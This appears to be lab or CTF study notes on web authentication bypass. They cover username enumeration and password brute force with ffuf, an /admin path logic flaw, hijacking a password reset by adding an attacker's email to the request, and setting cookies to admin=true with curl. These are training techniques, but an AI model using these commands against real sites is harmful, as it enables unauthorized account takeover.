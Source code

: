 
# Authentication Bypass

different ways website authentication methods can be bypassed, defeated or broken.


helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid username
Website error messages are great resources for collating this information


- user  input in form fields
- fake name returns 'username already exists', which then can be added to our usernames list


## ffuf

`ffuf` tool uses common usernames to check against any matches

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://x.x.x.x/customers/signup -mr "username already exists" 
```

- `touch valid_usernames.txt`

```
steve
simon
robert
```


### BRUTE FORCE 

using `valid_usernames.txt` file generated from above and now we brute force 

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://x.x.x.x/customers/login -fc 200 
```

- W1: steve
- W2: thunder



### LOGIC FLAW 

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.

```{PHP}
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

 The code presents a logic flaw because an unauthenticated user requesting `/admin` will not have their privileges checked


### PASSWORD RESET
If an invalid email is entered, you'll receive the error message "Account not found from supplied email address".

example:
```
robert@acmeitsupport.thm 
username: robert
```


### curl requests

- reset email username submitted wit `POST` 
- email is sent request `GET`

```
curl 'http://x.x.x.x/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert' 
```

- rerun code but add `'username=robert&email=attacker@hacker.com'`


```
username: cupcake
email: hacker@cupcakes.com
password: cupcake5
cupcake@customer.acmeitsupport.thm
```






## COOKIE TAMPERING 

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges

- cookie for log in 
- cookie for admin privileges

- `curl http://x.x.x.x/cookie-test` returns "not logged in"

- `curl -H "Cookie: logged_in=true; admin=false" http://x.x.x.x/cookie-test` => logged in as user 

- rerun code, admin=true


























